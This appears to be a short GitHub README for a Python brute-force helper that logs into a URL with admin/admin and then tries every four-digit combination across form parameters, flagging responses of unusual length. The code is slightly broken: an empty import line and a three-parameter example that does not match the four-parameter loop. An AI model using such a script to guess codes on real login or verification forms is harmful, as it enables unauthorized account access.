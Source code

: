 # brutforce_many_params
If you need to iterate over several parameters at the same time

For example
```
num1=*&num2=*&num3=*
```

```py
import 

url = "URL"
s = requests.Session()
data = {"username": "admin", "password": "admin"} #for example
login_response = s.post(url, data=data)
print(login_response.text)
 
for x1 in range (0, 10):
    for x2 in range (0, 10):
        for x3 in range (0, 10):
            for x4 in range (0,10):
                data_code = {"num1":x1, "num2":x2, "num3":x3, "num4":x4}
                answer = s.post(url, data=data_code)
                print(x1, x2, x3, x4)
                print(len(answer.content))
                if len(answer.content) != 2480: #check response conditions
                    print("STOOOOP", x1, x2, x3, x4)
```
